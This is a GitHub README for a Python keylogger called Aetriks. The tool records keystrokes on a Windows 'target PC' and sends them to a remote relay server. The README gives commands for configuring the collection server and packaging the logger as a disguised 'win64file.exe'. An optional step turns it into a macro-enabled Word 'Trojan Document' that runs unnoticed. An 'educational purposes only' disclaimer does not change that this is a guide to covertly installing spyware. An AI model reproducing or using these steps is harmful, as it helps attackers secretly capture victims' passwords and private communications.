 # Aetriks: Simple Python Keylogger

A simple Python keylogger that captures keystrokes on a Windows target PC and sends them to a remote server running on Linux.

> **Disclaimer**:  
> This code is for **educational purposes only**! Do not use it for any illegal activities. Misuse of this tool is your responsibility.

---

## Features

- Captures keystrokes in real-time on a Windows target PC.
- Sends collected keystrokes to a remote server running on Linux.
- Configurable server IP, port, and data transmission interval.

---

## Installation Guide (Linux)

### **Step 1: Clone the Repository**

1. Clone the Aetriks repository:
   ```bash
   git clone https://github.com/frHimanshu/Aetriks.git
   cd Aetriks
   ```

2. Clone the Aetriks Relay Server repository inside the `Aetriks` directory:
   ```bash
   git clone https://github.com/frHimanshu/aetriks-relay.git
   ```

---

### **Step 2: Set Up the Keylogger**

1. Create a virtual environment:
   ```bash
   python3 -m venv keylogger_env
   source keylogger_env/bin/activate
   ```

2. Install required dependencies:
   ```bash
   pip install -r requirements.txt
   ```

3. Edit the `config.json` file in Aetriks-relay directory:
   - Update the `ip_address` field with the IP address of the Linux machine on which the Aetriks Relay server is gonna be hosted.
   - Example:
     ```json
     {
         "ip_address": "",
         "port_number": 8080,
         "time_interval": 10
     }
     ```

4. Convert the keylogger to a Windows executable:
   - Install PyInstaller:
     ```bash
     pip install pyinstaller
     ```
   - Build the executable and include `config.json`:
     ```bash
     pyinstaller --onefile --name win64file --add-data=config.json:. keylogger.py
     ```
   - The output executable (`win64file.exe`) will be located in the `dist` directory.

5. Working executable is successfully created.

### Step 2.1: Format conversion: Executable to Vba. [Optional]

- What is this for? <br>
This step is for creating a Trojan Document. The vba script can be merged in the word Document with extension .docm . After sharing the Document file (macro enabled0 on target pc and ran the file, This can work exactly like exe file but without even noticing. Steps to create vba script is below!

   - Transfer the `win64file.exe` in the folder where `exe_to_vba.py` is sitting.
   - Run the python script of `exe_to_vba.py` you will receive a `output.vba` file.
   - To merge the `.vba` script in the Word file, Their are many youtube videos you can find.
   - The `.docm` file is ready for testing. 

---

### **Step 3: Set Up the Aetriks Relay Server**

Refer to the [Aetriks Relay Server Repository](https://github.com/frHimanshu/aetriks-relay) for detailed installation instructions.

---

## Contact

Contact me on Discord if you want to know more about this or have any doubts! <br>
id: `_himanshu__`

---

## Legal and Ethical Use

This project is for **educational purposes only**.  
**Make sure you have explicit permission** before running this on any device. Misuse of this tool is your responsibility.


## Contribution

Feel free to contribute to this project by submitting issues or pull requests on [GitHub](https://github.com/frHimanshu/Aetriks).

---

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.

---
